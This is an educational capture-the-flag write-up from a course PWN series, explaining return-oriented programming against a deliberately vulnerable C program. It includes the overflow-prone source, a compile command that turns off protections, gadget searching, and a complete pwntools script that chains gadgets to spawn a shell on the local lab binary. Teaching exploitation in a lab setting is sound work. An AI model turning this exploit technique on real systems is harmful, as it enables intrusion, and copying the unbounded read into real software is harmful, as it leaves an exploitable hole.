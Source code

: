 ```yaml
---
title: Simple PWN - 0x07(ROP)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x07(ROP)
###### tags: `CTF` `PWN` `eductf`

## Background
* This is very similar to normal `BOF`.
* If a sample code that doesn't have a backdoor function and you cannot input a backdoor function as well, then you can use some code segment to merge a shellcode.
* Therefore, the main idea is use some `<operation>;ret` pattern segment to overlap stack.
![](https://imgur.com/YGarADK.png)

## Original Code
```c!=1
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0)
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Here is your \"/bin/sh\": %p\n", "/bin/sh");
    printf("Give me your ROP: ");
    read(0, s, 0x400);
    
    return 0;
}
```
* At line `11`, `%p` means pointer of `/bin/sh` string.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection. In addition, please use `-static` command to compile library at compile time, so that we can get `ROP gadget` more easily.
    ```bash!
    gcc -o rop rop.c -zexecstack -no-pie -fno-stack-protector -z norelro -static
    ```

## Exploit
* First, we can observe the program has overflow(very important), but has no other backdoor method can access or global variable can write shellcode. Then we can consider to use `ROP gadget` to construct chain.
* Second, we use `ROPgadget` to find suitable gadget
    ```bash!
    $ ROPgadget --multibr --binary rop > rop_gadget
    $ vim rop_gadget
    ```
    ![](https://imgur.com/IzeTvgK.png)
    ![](https://imgur.com/PlA5C8B.png)
    ![](https://imgur.com/zg28Pti.png)
    ![](https://imgur.com/WDS0HUh.png)
    ![reference link](https://imgur.com/dEh7b5n.png)
    * Note that, you may consider that `pop rdx ; pop rbx ; ret` is not what we want. We just want `pop rdx ; ret`. Therefore, we have to push one more value for `pop rbx ;` instruction.
* Then, we can construct our payload:
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./rop')

    r.recvuntil('Here is your "/bin/sh": ')
    binsh = int(r.recvline()[:-1], 16)
    info(f"binsh: {hex(binsh)}")

    pop_rdi_ret = 0x401eaf
    pop_rsi_ret = 0x409ede
    pop_rdx_ret = 0x485aeb
    pop_rax_ret = 0x44fcc7
    syscall = 0x401c64
    ```
    * Note that, `r.recvline()[:-1]` is `b'0x498004'` and we must pop to `%rdi` at line `17` below.
* Then we can combine them together using [flat method](https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.flat). It'll flat the address with **length 8 bytes**.
    ```python!=16
    ROP = flat(
        pop_rdi_ret, binsh,
        pop_rsi_ret, 0,
        pop_rdx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall,
    )

    gdb.attach(r)
    r.sendafter("Give me your ROP: ", b'a' * 0x18 + ROP)

    r.interactive()
    ```
* Finally, we got shell!!!
    ![](https://imgur.com/dk0Z2mw.png)

## Analysis
* This is totally the same as our hypothesis.
![](https://imgur.com/OjcDNbu.png)
* We can see that all parameters are ready
    ![](https://imgur.com/xXx7HRQ.png)

## Reference
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=1239)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=6712)